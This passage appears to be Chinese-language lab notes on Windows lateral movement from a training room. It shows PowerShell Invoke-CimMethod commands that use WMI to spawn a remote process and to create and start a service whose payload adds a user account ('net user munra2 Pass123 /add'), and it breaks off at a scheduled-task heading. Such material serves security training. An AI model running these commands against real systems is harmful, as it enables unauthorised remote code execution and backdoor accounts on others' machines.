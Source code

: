 ### 使用 WMI 远程创建进程

端口：

    135/TCP， 49152-65535/TCP （DCERPC）
    5985/TCP （WinRM HTTP） 或 5986/TCP （WinRM HTTPS）

    所需的组成员身份：管理员

我们可以利用 Windows Management Instrumentation （WMI） 从 Powershell 远程生成进程，向 Win32_Process 类发送 WMI 请求以在我们之前创建的会话下生成进程：

    $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

    Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
    CommandLine = $Command
    }

请注意，WMI 不允许你查看任何命令的输出，但确实会以静默方式创建所需的进程。

### 使用 WMI 远程创建服务

端口：

    135/TCP， 49152-65535/TCP （DCERPC）
    5985/TCP （WinRM HTTP） 或 5986/TCP （WinRM HTTPS）

    所需的组成员身份：管理员

我们可以通过Powershell使用WMI创建服务。要创建一个名为 THMService2 的服务，我们可以使用以下命令：

    Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
    Name = "THMService2";
    DisplayName = "THMService2";
    PathName = "net user munra2 Pass123 /add"; # Your payload
    ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
    StartMode = "Manual"
    }
然后，我们可以掌握该服务并使用以下命令启动它：

    $Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

    Invoke-CimMethod -InputObject $Service -MethodName StartService

最后，我们可以使用以下命令停止和删除服务：

    Invoke-CimMethod -InputObject $Service -MethodName StopService
    Invoke-CimMethod -InputObject $Service -MethodName Delete

### 使用 WMI 远程创建计划任务

端口：
    135/TCP， 49152-65535/TCP （DCERPC）
    5985/TCP （WinRM HTTP） 或 5986/TCP （WinRM HTTPS）

    所需的组成员身份：管理员
